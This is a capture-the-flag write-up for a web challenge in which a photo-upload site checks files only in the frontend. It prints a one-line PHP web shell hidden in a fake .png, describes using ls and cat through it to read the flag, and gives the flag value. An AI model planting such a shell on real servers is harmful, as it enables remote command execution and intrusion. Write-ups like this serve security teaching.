

# Loading picture.php

> Category: Web

> Points: 130

## Challenge Description

> translated: To teach himself how to draw pretty, Mario redraws nature photos in his free time. Unfortunately, he doesn't have many ideas where he could find interesting photos, so he had created a website which allows other people to upload photos that he can use. Mario was very careful, so he limited the file size which can be uploaded so that malicious people couldn't upload something that isn't a photo.

> native: Kako bi naučio lijepo crtati, Mario u slobodno vrijeme precrtava slike prirode. Nažalost, nema puno ideja gdje bi našao zanimljive slike, ali je zato napravio stranicu koja mu omogućuje da drugi ljudi učitavaju slike koje on onda može iskoristiti. Mario je vrlo oprezan, pa je zato ograničio veličinu datoteka koje se mogu učitati kako zlonamjerni ljudi ne bi mogli učitati nešto što nije slika.

## Analysis

To anyone with a little bit of experience this will sound like a PHP shell task, so let's try to go that route.

Loading the website we get a simple upload form.


We will craft our own fake .png file. We can do that by creating a .png file and putting this code inside of it.

```php
<?php echo shell_exec($_GET['cmd'])?>
```

We will send the request in Postman since the validation of files is done in frontend, and afterwards we will just use standard Linux "ls" and "cat" commands to get around and print out the flag file.



## FLAG

> CTF2021[750396018838]